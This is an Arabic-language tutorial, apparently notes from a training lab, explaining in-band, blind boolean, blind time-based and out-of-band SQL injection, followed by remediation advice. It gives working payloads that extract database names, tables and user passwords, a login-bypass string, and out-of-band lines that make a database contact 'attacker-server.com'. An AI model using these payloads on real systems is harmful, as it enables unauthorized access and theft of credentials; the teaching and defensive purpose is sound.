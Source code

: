 # SQL injection

<details>
   <summary> in-band SQLI </summary>

🧪 الجزء العملي - خطوة بخطوة
1. اكتشاف الثغرة:
افتح المتصفح، وروح للرابط اللي فيه id=1.

جرب تحط ' بعد الرقم كده:


```
id=1'
```
هتلاقي رسالة خطأ ظهرت.
ده معناه إن المدخل بتاعك داخل فعلاً جوه استعلام SQL، وده تأكيد إن فيه ثغرة.

2. نبدأ نستغلها بـ UNION
جرب كده:

```
id=1 UNION SELECT 1
```
هتلاقي رسالة خطأ بتقولك إن عدد الأعمدة مش متطابق.

جرب تزود الأعمدة:
```
id=1 UNION SELECT 1,2
```
لسه في Error؟ زود كمان:

```
id=1 UNION SELECT 1,2,3
```
كده اشتغل! ليه؟ لأن الاستعلام الأصلي بيرجع 3 أعمدة، فلازم الاتحاد يكون بنفس العدد.

3. نخلي الـ UNION يشتغل لوحده
يعني نمنع الاستعلام الأصلي من إرجاع نتيجة.

اعمل id=0 بدلاً من 1:
```
id=0 UNION SELECT 1,2,3
```
كده الصفحة هتعرض النتائج اللي انت رجعتها.

4. نعرض اسم قاعدة البيانات:
```
id=0 UNION SELECT 1,2,database()
```
هيظهر لك اسم قاعدة البيانات، مثلاً: sqli_one.

5. نعرض أسماء الجداول داخل قاعدة البيانات:
```
id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
النتيجة:
```
article,staff_users
```

يبقى فيه جدول اسمه staff_users ده غالبًا فيه اليوزرز.

6. نعرف أسماء الأعمدة داخل جدول staff_users:
```
id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
النتيجة:
```
id,username,password
```

7. نجيب اليوزرات والباسوردات:
```
id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
هتلاقي النتائج بتظهر كده:

```
martin:123456
admin:qwerty
```


✅ ملخص سريع:

الخطوة | الهدف
------------|---------------------
' | تأكد وجود الثغرة
UNION SELECT 1,2,3 | تأكد من عدد الأعمدة
database() | جبت اسم قاعدة البيانات
information_schema.tables | جبت أسماء الجداول
information_schema.columns | جبت أسماء الأعمدة
staff_users | جبت البيانات الحساسة زي الباسورد

  
</details>






<details>
     <summary>Blind SQLI (Authentication Bypass)</summary>

      🕶️ Blind SQL Injection (الحقنة العمياء)
يعني إيه "Blind"؟
يعني مافيش رسائل خطأ، ولا داتا طالعة على الشاشة تقولك إن الهجمة نجحت.

لكن بالرغم من كده، الحقنة (injection) شغالة، بس السيرفر مابيظهرلكش حاجة مباشرة تقولك كده.

🧠 طيب نستفيد منها إزاي؟
كل اللي إحنا محتاجينه هو "رد فعل بسيط" من الموقع.
يعني مثلاً:

لو طلعلك صفحة معينة = الاستعلام نجح.

لو فضلك على نفس الصفحة = الاستعلام فشل.

وده كفاية إننا نبدأ نشتغل ونستخرج معلومات من قاعدة البيانات حتى لو بشكل بطيء.

🔓 Bypassing Authentication (تخطي تسجيل الدخول)
دي واحدة من أسهل الطرق في Blind SQLi، وممكن نكسر بيها فورم تسجيل الدخول.

🤔 إزاي بيشتغل تسجيل الدخول أصلاً؟
الموقع بيعمل استعلام بالشكل ده:

```
SELECT * FROM users WHERE username = 'ali' AND password = '123456' LIMIT 1;
```
لو فيه مستخدم بالبيانات دي، الاستعلام بيرجع صف واحد → يبقى المستخدم يدخل.

📌 إحنا نعمل إيه؟ نضحك على الاستعلام!
بدل ما نحاول نخمن Username وPassword، إحنا هنخلي الاستعلام يرجع نتيجة مهما كانت البيانات غلط.

🎯 الطريقة:
في خانة الـ Password، نكتب:

```
' OR 1=1;--
```
ده بيحوّل الاستعلام إلى:

```
SELECT * FROM users WHERE username = '' AND password = '' OR 1=1;--
```
شرحها:

'' AND '' → ده هيرجع false.

OR 1=1 → ده true دايمًا.

-- → ده بيعلّق باقي الاستعلام (يعني أي حاجة بعده مش بتتنفذ).

فالاستعلام كله بيرجع true، وكأنك سجلت دخولك بنجاح، حتى من غير Username أو Password!

✅ النتيجة:
لو الموقع معمول بشكل غير آمن، هيسمحلك بالدخول من غير بيانات صحيحة.

🛠️ ملحوظة مهمة:
لو ما نفعش:

جرب أنواع مختلفة من علامات التنصيص: " OR 1=1-- أو حتى ') OR ('1'='1.

جرب تحط القيمة في خانة الـ Username بدل Password.

🔐 ملخص سريع:



   العنصر | الوصف
   -------------|----------------
الهدف | تخطي تسجيل الدخول
نوع الهجوم | Blind SQLi
الوسيلة | استغلال منطق التحقق من صحة البيانات
الباي لود | ' OR 1=1;--
        
</details>






<details>
   <summary>Blind SQLi - (Boolean Based)</summary>

   🕵️‍♂️ يعني إيه Boolean-Based Blind SQL Injection؟
النوع ده من الـ SQLi بيشتغل على إنك ما بتاخدش بيانات واضحة من السيرفر، لكن السيرفر بيرد عليك بـ حاجة ثنائية (صح أو غلط)، زي:

true / false

1 / 0

yes / no

أو مثلًا تظهر صفحة أو ما تظهرش.

والحيلة هنا إنك تراقب رد الفعل على الاستعلام، مش البيانات نفسها.

🎯 المثال العملي:
رابط زيه كده:

```
https://website.thm/checkuser?username=admin
```
الرد بيكون حاجة شبه:

```
{"taken":true}
```
يعني اسم المستخدم موجود.

لو كتبنا:

```
https://website.thm/checkuser?username=admin123
```
هيكون الرد:

```
{"taken":false}
```
يعني الاسم مش موجود.

فهمنا كده إن فيه API بتشيك هل اسم المستخدم موجود ولا لأ.

🛠️ الاستعلام اللي السيرفر بيشغله غالبًا شكله كده:
```
SELECT * FROM users WHERE username = '%username%' LIMIT 1;
```
واحنا بنقدر نتحكم في %username% من خلال الرابط.

✅ الهدف الأول: نعرف عدد الأعمدة
نبدأ نضيف استعلام UNION، ونجرب نعرف عدد الأعمدة في الجدول.
نجرب مثلاً:

```
admin123' UNION SELECT 1;--
```
لو السيرفر رجّع false → يبقى عدد الأعمدة مش 1.
نزيد شوية:

```
admin123' UNION SELECT 1,2;--
```
برضو false → مش 2.

لحد ما نوصل:

```
admin123' UNION SELECT 1,2,3;--
```
وهنا هنلاقي {"taken": true}
يبقى كده عرفنا إن الجدول بيرجع 3 أعمدة. ✅

🔍 الهدف الثاني: نعرف اسم قاعدة البيانات
نستخدم الدالة database() اللي بترجع اسم قاعدة البيانات الحالية.

نجرب حاجة بسيطة:

```
admin123' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
```
% معناها أي حاجة، فالنتيجة هتبقى true.

نجرب نحصر أكتر:

```
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 'a%';--
```
لو النتيجة false → يبقى الاسم مش بيبدأ بـ a.

نكمل نحاول بالحروف:

b%

c%

... لحد ما نلاقي:

```
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 's%';--
```
يعني الاسم بيبدأ بـ s.

نبدأ نحاول حرف حرف:

sa%

sb%

sq%

...

لحد ما نوصل لـ sqli_three ✅

🧱 الهدف الثالث: نكتشف أسماء الجداول
نروح على information_schema.tables ونستخدم نفس الطريقة:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name LIKE 'a%';--
```
لو false → نغير الحرف.

نجرب لحد ما نلاقي:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name='users';--
```
يبقى فيه جدول اسمه users ✅

🧩 الهدف الرابع: نكتشف أسماء الأعمدة في جدول users
نروح على:

```
information_schema.columns
```
ونجرب:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema='sqli_three' AND table_name='users' AND column_name LIKE 'a%';--
```
كل مرة نكتشف عمود، نستبعده عشان نكمل نجيب الباقي:

```
... AND column_name != 'id'
```
وهكذا نكررها لحد ما نكتشف الأعمدة:

id

username

password ✅

🔐 الهدف الأخير: نكتشف بيانات المستخدم (اسم وكلمة مرور)
نبدأ باسم المستخدم:
```
admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'a%';--
```
نكرر لحد ما نعرف إن فيه username اسمه admin.

بعد كده نجيب الباسورد:
```
admin123' UNION SELECT 1,2,3 FROM users WHERE username='admin' AND password LIKE '3%';--
```
نجرب حرف حرف لحد ما نوصل للباسورد الكامل:

```
3845 ✅
```
🎉 النتيجة:
قدرنا من غير ما نشوف بيانات مباشرة نعرف:

اسم قاعدة البيانات.

اسم الجدول.

أسماء الأعمدة.

اسم المستخدم.

الباسورد.

وكل ده عن طريق الملاحظة الذكية لردود السيرفر.
   
   
</details>













<details>
   <summary>Blind SQLi - (Time Based)</summary>

   ⏱️ إيه هو Time-Based Blind SQL Injection؟
النوع ده بيشتغل على مبدأ:

"لو الاستعلام اتحقق صح، نفّذ SLEEP(x) واتأخر في الرد."

ولو ما اتأخرش، يبقى الاستعلام فشل أو ما تنفذش بالطريقة اللي إحنا عايزينها.

🔧 بنستخدم فين SLEEP()؟
في قواعد البيانات زي MySQL، فيه دالة اسمها SLEEP(5) بتخلّي السيرفر يستنى 5 ثواني قبل ما يرد.

💡 الهدف الأول: نعرف عدد الأعمدة
بنبدأ باستعلام بسيط زي:

```
admin123' UNION SELECT SLEEP(5);--
```
لو السيرفر ما اتأخرش → يبقى الاستعلام غلط.

نزوّد عمود كده:

```
admin123' UNION SELECT SLEEP(5), 2;--
```
لو حصل تأخير 5 ثواني → يبقى عدد الأعمدة = 2 ✅

لو ما حصلش، نزود:

```
admin123' UNION SELECT SLEEP(5), 2, 3;--
```
ونكمل لحد ما نحصل على التأخير → ده معناه إننا عرفنا عدد الأعمدة.

🧱 زي boolean-based، نكمل بنفس الطريقة لكن بنقيس الوقت:
🧠 اكتشاف اسم قاعدة البيانات:
نستخدم database() ومعاها شرط LIKE وسليب:

```
admin123' UNION SELECT SLEEP(5), 2 WHERE database() LIKE 's%';--
```
لو حصل تأخير → يبقى الاسم بيبدأ بـ s
لو ما حصلش → جرّب حرف تاني (a%, b%, c%, ...)

نكمّل حرف حرف:

sa%

sql%

sqli_t% ... لحد ما نوصل لـ sqli_three ✅

🧩 اكتشاف الجداول:
نروح على information_schema.tables ونكتب:

```
admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name LIKE 'u%';--
```
لو حصل تأخير → فيه جدول بيبدأ بـ u.

نجرّب أكتر لحد ما نجيب:

```
table_name = 'users'
```
🧠 اكتشاف الأعمدة:
نكرر نفس الفكرة:

```
admin123' UNION SELECT SLEEP(5),2 FROM information_schema.columns WHERE table_schema='sqli_three' AND table_name='users' AND column_name LIKE 'u%';--
```
كل مرة نكتشف عمود نعمل:

```
... AND column_name != 'username'
```
ونكررها لحد ما نكتشف: id, username, password ✅

🔓 استخراج بيانات الدخول:
أولًا: نجيب اسم المستخدم
```
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username LIKE 'a%';--
```
لحد ما نوصل لـ admin

ثانيًا: نجيب الباسورد
```
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password LIKE '3%';--
```
نكمل:

38%

384%

3845 ✅

🎉 الخلاصة:
بالـ Time-Based SQLi:

بنكتشف الأعمدة من خلال زمن التأخير.

بنكرر نفس خطوات Boolean-Based لكن بذكاء مع الزمن.

الاختبار الحقيقي في المثابرة والتجريب واحدة واحدة.
   
</details>









<details>
   <summary>Out-of-Band SQLi</summary>

   📡 إيه هو Out-of-Band SQLi؟
النوع ده مش بيعتمد على ظهور بيانات مباشرة في الصفحة (زي In-Band)
ولا على تأخيرات أو استجابات منطقية (زي Boolean أو Time-based)

إنما بيعتمد على فكرة مختلفة شوية:

"أنا هبعت حاجة في الاستعلام تخلي قاعدة البيانات تتصل بجهازي أو سيرفر خارجي، وتبعتلي منه البيانات!"

يعني فيه قناتين:

🎯 قناة الهجوم = الريكوست اللي انت بعتّه للسيرفر (مثلاً POST أو GET).

📥 قناة التجميع = الاتصال اللي بيحصل من قاعدة البيانات لجهازك، زي DNS أو HTTP.

🧠 ازاي بيحصل الهجوم ده؟
خلينا نوضحها بخطوات:

🔍 تكتشف نقطة SQLi (زي أي نوع تاني).

💉 تكتب Payload خاص بيستخدم دوال زي:

LOAD_FILE()

xp_dirtree (في MSSQL)

UTL_HTTP.REQUEST() (في Oracle)

أو dnslookup() لو قاعدة البيانات تدعمها.

🌐 الاستعلام يجبر قاعدة البيانات تبعت طلب خارجي (DNS أو HTTP) لسيرفر انت بتتحكم فيه.

🛰️ انت بتراقب السيرفر ده، وتشوف البيانات وهي بتجيلك من الـ payload.

🧪 مثال عملي: (MySQL)
لو عندك دومين أو سيرفر انت بتملكه زي:

```
attacker-server.com
```
تكتب في خانة vulnerable:


```
' UNION SELECT LOAD_FILE('\\\\attacker-server.com\\data')--
```
أو (لو تشتغل مع MySQL/DNS):

```
'; SELECT extractvalue(xmltype('<?xml version="1.0"?><!DOCTYPE root [<!ENTITY % ext SYSTEM "http://attacker-server.com"> %ext;]>'),'/');--
```
ده يجبر قاعدة البيانات إنها تحاول تفتح اتصال HTTP لسيرفرك، وفيه ممكن تحط البايلود يبعَتلك داتا.

💡 في MSSQL:
```
'; exec master..xp_dirtree '\\attacker-server.com\share';--
```
ده بيخلي السيرفر يحاول يتصل على SMB Share، وده انت بتراقبه من جهازك أو سيرفرك.

🛠️ إزاي أراقب الطلبات دي؟
تشغّل أداة على جهازك أو سيرفرك زي:

🧰 Burp Collaborator أو

🛡️ Responder (لـ SMB)

🐍 أو حتى Script Python بـ Flask أو SimpleHTTPServer

🔬 DNS server مخصص، زي dnslog.cn

📛 ملحوظات مهمة:
النوع ده مش دايمًا بيشتغل، لأنه بيعتمد على:

إعدادات قاعدة البيانات

وجود صلاحيات كافية

إن الـ firewall ميسدّش الـ outgoing requests


🔐 الخلاصة:


العنصر | النوع
----------|----------------
طريقته | قناة هجوم + قناة استقبال خارجي
أدوات مساعدة | DNSLog / Burp Collaborator / Responder
يعتمد على | إرسال بيانات خارجية (HTTP, DNS, SMB)
فعال لما؟ | لما باقي الأنواع ماتديش أي feedback


   
</details>







---

## Remediation



🛡️ إزاي نحمي التطبيق من SQL Injection؟
فيه 3 وسائل أساسية اتكلم عنها الكلام اللي فوق، وهنشرح كل واحدة:

1. ✅ Prepared Statements (الاستعلامات المجهزة مسبقًا)
📌 يعني إيه؟
بدل ما تكتب الكود كده:

```
"SELECT * FROM users WHERE username = '" + userInput + "'"
```
بتكتبه بالشكل الآمن ده:

🔒 مثال آمن بلغة PHP (PDO):
```
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$userInput]);
```
أو بلغة Python:

```
cursor.execute("SELECT * FROM users WHERE username = %s", (user_input,))
```
✅ ده بيخلي الـ DB تعرف الفرق بين الكود والداتا، ومفيش injection ممكن يحصل.

2. 🧼 Input Validation (التحقق من البيانات)
📌 يعني إيه؟
تتأكد إن المستخدم بيكتب الحاجة اللي المفروض يكتبها فقط.

مثلًا: لو خانة فيها رقم، ماينفعش تقبل حروف أو رموز.

🔒 أمثلة:
في خانة ID → لازم يكون رقم بس (123)

في خانة username → تمنع الرموز الغريبة (< > ' " %)

📋 أفضل طريقة؟

استخدم Allow List (يعني تحدد إيه المسموح بيه بدل ما تمنع إيه الممنوع)

مثال: تقبل حروف A-Z و 0-9 بس.

3. 🔐 Escaping User Input (تخبيط الرموز الخطيرة)
📌 يعني إيه؟
لو المستخدم كتب حاجة فيها ' أو " أو \، دي رموز ممكن تخرب الاستعلام وتسبب injection.

🔧 الحل:
"Escape" الرموز دي يعني تضيف \ قبلها.

مثال: ' تتحول لـ \'

📌 معظم لغات البرمجة أو مكتبات الـ SQL بتوفر دوال بتعمل كده تلقائي، بس مش دايمًا كفاية لوحدها.

✅ خلاصة الكلام:
















